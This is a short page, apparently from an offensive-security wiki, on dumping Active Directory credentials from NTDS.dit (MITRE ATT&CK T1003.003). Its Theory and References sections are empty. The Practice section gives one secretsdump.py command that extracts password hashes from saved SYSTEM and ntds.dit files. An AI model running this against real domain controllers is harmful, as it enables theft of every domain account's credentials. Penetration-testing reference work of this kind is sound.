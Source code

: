 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.003
---
```


# 🛠️ NTDS.dit

## Theory

## Practice

{% tabs %}
{% tab title="secretsdump" %}
```bash
secretsdump.py -system '/path/to/system.save' -ntds '/path/to/ntds.dit.save' LOCAL
```
{% endtab %}
{% endtabs %}

## References

